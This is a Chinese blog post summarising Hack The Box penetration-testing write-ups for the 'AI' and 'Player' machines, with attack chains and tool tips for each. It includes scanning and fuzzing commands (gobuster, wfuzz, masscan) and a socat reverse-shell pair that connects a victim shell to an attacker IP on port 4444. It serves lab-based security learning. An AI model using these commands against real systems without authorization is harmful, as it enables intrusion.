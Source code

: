 ```yaml
---
layout: post
title: 「0xrick's Write-ups for hack-the-box」渗透习惯与知识点补充
description: ""
keywords: ""
---
```


国外Ahmed Hesham师傅记录了50多个Hack The Box环境的渗透Writeup，很有学习价值，虽不是实战，但其中的渗透流程十分清晰，也有规律可循，可以看出师傅的渗透习惯，这里我将其中的知识点和自己的思考分享给大家。

Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

同时推荐klionsecs师傅的[红方人员作战执行手册](https://github.com/klionsec/RedTeamer)，针对日常 "红队" 场景，进行了一次相对全面完整的实战攻击利用技术提炼汇总，实战流程更为清晰。养成一个良好的渗透习惯，是一个安全研究人员的基本功，结合两位师傅的分享，学习后收益颇丰。

### 一、AI

环境概述：Linux、Medium、30'、09 Nov 2019

渗透流程：Nmap -> Web Enumeration -> SQL injection –> Alexa’s Credentials –> SSH as Alexa –> User Flag -> JDWP –> Code Execution –> Root Shell –> Root Flag

知识点：

- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
- 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
- 文字转MP3：使用[ttsmp3](https://ttsmp3.com)，有中国女声，可读中文。
- MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
- Linux提权：使用`ps aux`查看root权限起的服务，使用`netstat -ntlp`查看敏感端口；在Github上使用关键词搜索exp。

思考：

- 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
- SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
- Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。

### 二、Player

环境概述：Linux、Hard、40'、06 Jul 2019

渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag

知识点：

- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
- 文件泄露：`.swp`, `.bak` and `~`。
- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。

思考：

- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
